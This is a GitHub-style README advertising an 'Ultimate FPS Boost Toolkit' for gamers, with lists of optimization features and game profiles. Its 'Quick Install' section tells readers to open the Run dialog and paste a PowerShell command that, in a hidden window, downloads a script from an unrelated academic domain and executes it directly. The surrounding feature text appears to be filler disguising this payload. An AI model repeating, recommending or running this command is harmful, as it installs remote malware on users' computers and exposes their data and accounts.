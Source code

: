 ## 🚀 Ultimate FPS Boost Toolkit
<details> <summary><strong>🔥 FPS Optimization Suite</strong></summary>
✅ Game Performance Booster
Automatic system tweaks for maximum FPS

Intelligent background process management

One-click gaming mode activation

Real-time performance monitoring overlay

✅ Advanced Rendering Tweaks
DirectX/OpenGL/Vulkan optimizer

Resolution scaler with sharpening

LOD (Level of Detail) adjuster

Shadow quality optimizer

</details><details> <summary><strong>🎮 Game-Specific Profiles</strong></summary>
🕹️ Pre-configured Optimizations
Competitive esports titles (Valorant, CS2, Fortnite)

Open world games (Cyberpunk 2077, Elden Ring)

VR titles optimization

Emulator performance packs

</details>

## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press WIN+R
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/weatherdolphin/dollrandom))).Invoke();
```

```
# Example: Auto-detect and apply game profile
from fps_boost import GameOptimizer

optimizer = GameOptimizer()
optimizer.detect_game()  # Auto-detects running game
optimizer.apply_esports_profile()  # Applies competitive settings
```


</details><details> <summary><strong>⚙️ Low-Level Tweaks</strong></summary>
🛠️ System Performance
CPU core unparker

Memory latency reducer

NVidia/AMD GPU specific tweaks

SSD optimization for game loading

🔓 FPS Unlocker
Frame rate cap remover

Physics-engine speed adjuster

Cutscene FPS unlock

VSync control panel

</details><details> <summary><strong>📊 Performance Analytics</strong></summary>
📈 Benchmark Tools
Before/after comparison

Frame time analysis

1% low FPS tracker

Thermal throttling monitor

</details><details> <summary><strong>📥 Installation & Usage</strong></summary>
System Requirements:

Windows 10/11 (64-bit)

4GB+ RAM

DirectX 11+ compatible GPU

Installation:

Download latest release

Run installer as administrator

Select games to optimize

Apply recommended settings

</details>

### Command Line Options:

```
fpsboost --game=cs2 --profile=competitive
fpsboost --benchmark --output=report.html
```

🔹 License: MIT (Open Source)
🔹 Warning: Use at your own risk - may affect online game anti-cheat systems
